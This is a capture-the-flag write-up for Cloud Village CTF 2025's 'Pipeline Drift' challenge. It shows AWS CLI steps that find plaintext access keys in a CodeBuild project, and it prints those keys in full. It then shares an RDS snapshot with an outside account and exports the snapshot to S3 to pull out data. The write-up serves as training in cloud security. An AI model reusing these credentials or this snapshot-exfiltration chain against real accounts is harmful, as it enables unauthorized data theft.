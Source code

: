 # Pipeline Drift - Cloud Village CTF 2025

## Challenge Description

<img src="./Pipeline_Drift_870pts_part1.jpg" width="300">

## Initial Reconnaissance
Using the credentials provided in the challenge description, we performed basic AWS enumeration:

```bash
aws sts get-caller-identity
{
    "UserId": "AIDAXMQAGGFOSPOD3JJXA",
    "Account": "507880288605",
    "Arn": "arn:aws:iam::507880288605:user/ctf_player"
}
```

Since the challenge mentioned CI/CD operations, we systematically searched for CodeBuild projects across AWS regions:

```bash
bash check_codebuild_regions.sh
Checking CodeBuild projects across all default AWS regions...
==========================================================
Current AWS Identity:
{
    "UserId": "AIDAXMQAGGFOSPOD3JJXA",
    "Account": "507880288605",
    "Arn": "arn:aws:iam::507880288605:user/ctf_player"
}

Checking region: us-east-1
  ❌ No projects found

Checking region: us-east-2
  ❌ No projects found

Checking region: us-west-1
  ❌ No projects found

Checking region: us-west-2
  ✅ Found projects in us-west-2:
    - legacy-project

^C
```

Found `legacy-project` in the `us-west-2` region.

## CodeBuild Leaked Credentials
We examined the legacy project configuration and discovered more credentials:

```bash
aws codebuild batch-get-projects --names legacy-project --region us-west-2
```
```json
            "environment": {
                "type": "LINUX_CONTAINER",
                "image": "aws/codebuild/amazonlinux2-x86_64-standard:4.0",
                "computeType": "BUILD_GENERAL1_SMALL",
                "environmentVariables": [
                    {
                        "name": "AWS_ACCESS_KEY_ID",
                        "value": "AKIAXMQAGGFO5DD6NFK7",
                        "type": "PLAINTEXT"
                    },
                    {
                        "name": "AWS_SECRET_ACCESS_KEY",
                        "value": "3Hlzlj+3h2w4Z7L5qZ6JmjRjs1WonB87ujw4nHVo",
                        "type": "PLAINTEXT"
                    }
                ],
                "privilegedMode": false,
                "imagePullCredentialsType": "CODEBUILD"
            },
```

These credentials belonged to a different user: `leaky_user`.

```bash
aws sts get-caller-identity
{
    "UserId": "AIDAXMQAGGFO2NODOZTLM",
    "Account": "507880288605",
    "Arn": "arn:aws:iam::507880288605:user/leaky_user"
}
```

Doing some quick enumeration I didn't found any bucket or interesting role, so I've decided to use Prowler to check for any interesting findings in the account.

```bash
prowler aws --region us-west-2
```

The OCSF output showed some RDS resources worth digging:
![](prowler_output.png)

## The "Pipeline Drift"
The `legacy-app-db-snapshot` resonated with the concept of "pipeline drift" - leftover infrastructure that should have been cleaned up when the original database was decommissioned during infrastructure changes.

The snapshot was already shared with external accounts, so it looks we could add our own account to the list of allowed accounts:

```bash
aws rds modify-db-snapshot-attribute \
    --db-snapshot-identifier "legacy-app-db-snapshot" \
    --attribute-name "restore" \
    --values-to-add "[REDACTED]" \
    --region us-west-2
```

## RDS Snapshot Copy
Switching to personal AWS credentials, we copied the shared snapshot:

```bash
aws rds copy-db-snapshot \
    --source-db-snapshot-identifier "arn:aws:rds:us-west-2:507880288605:snapshot:legacy-app-db-snapshot" \
    --target-db-snapshot-identifier "legacy-ctf-copy-$(date +%s)" \
    --region "us-west-2"
```

Now, instead of restoring the full database, we exported the snapshot data to S3 for analysis:

```bash
aws s3 mb s3://rds-snapshot-export-ctf-1754679175 --region us-west-2

aws rds start-export-task \
    --export-task-identifier "legacy-export-$(date +%s)" \
    --source-arn "arn:aws:rds:us-west-2:[REDACTED]:snapshot:legacy-ctf-copy-1754679887" \
    --s3-bucket-name "rds-snapshot-export-ctf-1754679175" \
    --iam-role-arn "arn:aws:iam::[REDACTED]:role/rds-snapshot-export-role" \
    --kms-key-id "alias/ctf" \
    --region "us-west-2"
```

Downloaded the exported Parquet files and analyzed the database contents:

```bash
aws s3 sync "s3://rds-snapshot-export-ctf-1754679175/legacy-export-1754680136/" ./exported-database-data/
```

Using an [online parquet viewer](https://www.parquet-viewer.com), we found the flag in the `secrets` table:
![](parquet.png)

## Conclusion
The Pipeline Drift challenge showcased how poor CI/CD security combined with inadequate infrastructure lifecycle management can lead to significant data exposure, emphasizing the need for comprehensive cloud security practices.
